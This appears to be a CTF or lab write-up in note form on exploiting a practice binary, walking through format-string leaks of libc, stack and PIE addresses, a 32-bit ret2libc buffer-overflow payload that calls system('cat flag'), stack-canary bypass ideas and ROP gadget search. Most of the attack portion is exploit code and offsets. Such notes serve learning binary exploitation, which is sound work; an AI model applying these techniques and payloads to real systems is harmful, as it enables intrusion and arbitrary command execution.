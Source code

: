 
Return Oriented programming

32bits

## Start

```shell
checksec
```

![[Pasted image 20231127212408.png]]

## Test local

### Find leak of the libc

File : bfprintf.py => print all the addr

```python
for i in range(450):  
    payload = f'%{i}$p'.encode()  
    target.sendline(payload)  
    res = target.recvline()  
    print(f"{i}: {res}")
```

Find an addresse that correspond to the libc 

![[Pasted image 20231115212800.png]]

In gdb : ```info proc map```

![[Pasted image 20231115212903.png]]

=> offset 2 point to the libc 

Then we will search the correspond element of the offset 2
in gdb ```x/10i addr```

![[Pasted image 20231115213232.png]]

We now know that it correspond to the _IO_2_1_stdin

we will now look of the offset in IDA of the _IO_2_1_stdin, system and exit

locally in my libc : 
```python
off_system = 0x0047CB0  
off_exit = 0x00DCCB0  
addr_stdio = 0x00226620
```

To calculate the base addr of the libc and the function system and exit within : 
```python
libc_base_addr = leak_addr - addr_stdio
memory_system_addr = libc_base_addr + off_system  
memory_exit_addr = libc_base_addr + off_exit
```

leak addr => offset 2 
```python
payload = b'%2$p|'  
target.sendline(payload)  
res = target.recvline()  
print(res)  
res = res.decode().strip("\n").split("|")  
print(res)  
leak_addr = res[0]  
leak_addr = int(leak_addr,16)  
```

### Get an addr in the stack
=> get the offset between the addr we find and the start of the buffer

File : bfprintf.py => print all the addr

```python
for i in range(450):  
    payload = f'%{i}$p'.encode()  
    target.sendline(payload)  
    res = target.recvline()  
    print(f"{i}: {res}")
```

=> look of the addr and find one that correspond of the stack 
In gdb : ```info proc map```

![[Pasted image 20231115214902.png]]

we will launch the script remotely and locaaly to see the diff in the offset - they have to be the same in the two
here at the offset 263 we found 0x80493a3 that corresponf to the return addr of handle, we see just above 0xffffd098 addr that point to the stack
addr leak => 0xffffd098

Then to get the offset we will search the addr of the start of the buffer in gdb 

breakpoint in fgets where the first arg is the buffer (fgets)
![[Pasted image 20231115214556.png]]



![[Pasted image 20231115214657.png]]

```python
buf_addr = (leak_stack - 0x448)
```

```python
payload = b'%2$p|%262$p'  
target.sendline(payload)  
res = target.recvline()  
print(res)  
res = res.decode().strip("\n").split("|")  
print(res)  
leak_addr = res[0]  
leak_addr = int(leak_addr,16)  
leak_stack = int(res[1],16)
```

### Calculate the lengh of the buffer

in ida count the push, ..
![[Pasted image 20231115220334.png]]

1028+4+4 = 1036 = 0x40C


we have now all the offset

```python
buf = b'n'  
buf += b'A' * (0x40C - len(buf))  
  
  
# get addr of buffer in gdb here 0xffffcc50 and addr leak in 262 0xffffd098  
buf_addr = (leak_stack - 0x448) # ebp - 0x408  
sys_argument_addr = buf_addr + 0x40C + 3 * 4    
  
buf += p32(memory_system_addr) # system  
buf += p32(memory_exit_addr) # exit  
buf += p32(sys_argument_addr) # system argument addr   
buf += b"          cat flag\0" # cat flag str
```


### We now have to change the offset in the libc of the remote server and we get the flag

![[Pasted image 20231115220601.png]]

# 64 bits

### Libc like 32


### Get the canary

to the return addr of handle in 

![[Pasted image 20231116201900.png]]

here 149 
usually the canary finish by \0 then it is at 147

### In GDB

Breakpoint to the return @
![[Pasted image 20240315224451.png]]


```x/50wx $esp```

![[Pasted image 20240314091922.png]]
canary = 0x72acd500
return@ = 0x8048aa2

#### Canary protection

At start of the program
Uniq value that not change

#### Bypass canary

- Read value of the canary (vulnerability that allows us to read it)
- Bad entropy
- Brute Force byte by byte : with fork by example if process crash then not good byte but if not good byte of the canary => can pass to the others byte 

## Get the gadget

rp-lin-gcc/rp-lin -f rop/rop200/exo -r3 --colors | grep pop
![[Pasted image 20231116202059.png]]

we will take 4c3
![[Pasted image 20231116213647.png]]


## Bypass PIE

=> get addr of pie 
```info proc map``` to know the exo addr load by the binary
![[Pasted image 20231116212822.png]]


looks with the format string an add in the stack 
![[Pasted image 20231116212716.png]]

verify with gdb the addr 
![[Pasted image 20231116212847.png]]

get the offset with ida of the addr in the exo
![[Pasted image 20231116212915.png]]

Finally make the calcul : 
```pie_base_addr = leak_pie - addr_start```



